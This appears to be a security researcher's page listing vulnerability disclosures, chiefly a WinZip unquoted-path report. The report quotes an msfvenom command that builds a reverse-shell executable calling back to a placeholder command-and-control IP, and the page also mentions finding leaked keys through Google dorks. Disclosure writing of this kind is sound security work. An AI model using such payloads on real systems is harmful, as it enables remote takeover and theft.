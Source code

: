 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf
- Credited: https://support.corel.com/hc/en-us/articles/217086227
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear: Non-Disclosure agreement attached.
3. Netgear: Non-Disclosure agreement attached. 


### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

